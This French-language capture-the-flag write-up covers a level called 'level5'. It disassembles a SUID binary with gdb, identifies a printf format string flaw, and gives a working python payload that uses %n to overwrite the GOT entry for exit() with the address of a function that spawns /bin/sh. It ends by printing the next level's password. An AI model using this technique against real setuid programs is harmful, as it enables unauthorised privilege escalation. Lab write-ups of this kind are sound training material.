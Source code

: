 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
  [...]
  ```
    - On a un binaire appartenant a level6 dans le home avec les droits SUID.

- `./level5`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level5`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484a4  o
      0x080484c2  n
      0x08048504  main
    [...]
    ```
    - on trouve une fonction n() et une fonction o() en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048504 <+0>:	push   ebp
       0x08048505 <+1>:	mov    ebp,esp
       0x08048507 <+3>:	and    esp,0xfffffff0
       0x0804850a <+6>:	call   0x80484c2 <n>
       0x0804850f <+11>:	leave
       0x08048510 <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire, alignement de la stack<br/><br/>
    - <+6>
      - Call la fonction n()<br/><br/>
    - <+11> ... <+12>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

  - `disas n`
    ```asm
    Dump of assembler code for function n:
       0x080484c2 <+0>:	push   ebp
       0x080484c3 <+1>:	mov    ebp,esp
       0x080484c5 <+3>:	sub    esp,0x218
       0x080484cb <+9>:	mov    eax,ds:0x8049848
       0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
       0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
       0x080484dc <+26>:	lea    eax,[ebp-0x208]
       0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
       0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
       0x080484ea <+40>:	lea    eax,[ebp-0x208]
       0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
       0x080484f3 <+49>:	call   0x8048380 <printf@plt>
       0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
       0x080484ff <+61>:	call   0x80483d0 <exit@plt>
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 536 octets pour la stack)<br/><br/>
    - <+9> ... <+35>
      - Stocke dans eax la valeur de l'adresse 0x8049848 dans le data segment register
        - `x/s 0x8049848`
          - `0x8049848 <stdin@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdin) dans la stack (à esp + 8)
      - Stocke 0x200 (512) dans la stack (à esp + 4)
      - Fait pointer eax sur ebp - 520
      - Stocke eax (l'adresse ebp - 520) dans la stack (à esp)
      - Call fgets() avec les arguments stockés dans la stack<br/><br/>
    - <+40> ... <+49>
      - Fait pointer eax sur ebp - 520 => l'adresse du retour de fgets()
      - Stocke eax (l'adresse du retour de fgets()) sur la stack (à esp)
      - Call printf avec l'argument stocké sur la stack<br/><br/>
    - <+54> ... <+61>
      - Stocke 0x1 (1) sur la stack
      - Call exit() avec l'argument stocké sur la stack

  - `disas o`
    ```asm
    Dump of assembler code for function o:
       0x080484a4 <+0>:	push   ebp
       0x080484a5 <+1>:	mov    ebp,esp
       0x080484a7 <+3>:	sub    esp,0x18
       0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
       0x080484b1 <+13>:	call   0x80483b0 <system@plt>
       0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
       0x080484bd <+25>:	call   0x8048390 <_exit@plt>
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack)<br/><br/>
    - <+6> ... <+13>
      - Stocke la valeur de 0x80485f0 sur la stack (à esp)
        - `x/s 0x80485f0`
          ```
          0x80485f0:	 "/bin/sh"
          ```
      - Call system() avec l'argument stocké sur la stack (à esp)
    - <+17> ... <+18>
      - Réinitialisation de la mémoire, fin d'exécution
    - <+18> ... <+25>
      - Stocke 0x1 (1) sur la stack
      - Call _exit() avec l'argument stocké sur la stack

## Exploit

Ni main() ni n() n'appellent o(), dommage car il nous pop un shell.
On remarque également qu'il n'y a pas de return(), uniquement des call à exit() donc inutile de réécrire l'eip on va sortir sans y passer.
Il va falloir remplacer l'adresse de la fonction exit() dans le Global Offset Table par l'adresse de la fonction o() pour avoir notre shell.


- `objdump -R level5`
 ```
   OFFSET   TYPE              VALUE
 08049814 R_386_GLOB_DAT    __gmon_start__
 08049848 R_386_COPY        stdin
 08049824 R_386_JUMP_SLOT   printf
 08049828 R_386_JUMP_SLOT   _exit
 0804982c R_386_JUMP_SLOT   fgets
 08049830 R_386_JUMP_SLOT   system
 08049834 R_386_JUMP_SLOT   __gmon_start__
 08049838 R_386_JUMP_SLOT   exit
 0804983c R_386_JUMP_SLOT   __libc_start_main
 ```
 - l'adresse d'exit dans le GOT est `08049838`
- `gdb level5`
- `info function o`
  ```
  All functions matching regular expression "o":

  Non-debugging symbols:
  0x080483c0  __gmon_start__
  0x080483c0  __gmon_start__@plt
  0x08048420  __do_global_dtors_aux
  0x080484a4  o
  0x080485a0  __do_global_ctors_aux
  ```
  - l'adresse de o() est 0x080484a4

- `python -c 'print "AAAA" + "%x " * 10' | ./level5`
```
AAAA200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520 25207825 78252078 20782520
```
- on commence a lire notre format string dans la stack au 4eme argument donné à print, donc on devrait pouvoir accéder à notre adresse:
  - `python -c 'print"\x38\x98\x04\x08 %4$p"' | ./level5"
    ```
    8 0x8049838
    ```

On va à nouveau se servir du modifier %n pour écrire l'adresse de o() dans l'adresse du exit(), pour ca on va mettre autant de padding que la représentation en int de o(), moins 4 octets pour l'adresse de exit():
- `python -c 'print"\x38\x98\x04\x08%1$" + str(int(0x080484a4) - 4) + "d%4$n"' > /tmp/exploit`
- `cat /tmp/exploit - | ./level5`<br/>
  <img src="https://vignette.wikia.nocookie.net/spongebob/images/f/f7/Two_hours_later.jpg/revision/latest?cb=20101111022814" style="width: 350px;"/><br/>
  ```
                                    512
                  
  ```
  - `whoami`
    ```
    level6
    ```
  - `cat /home/user/level6/.pass`
    ```
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    ```
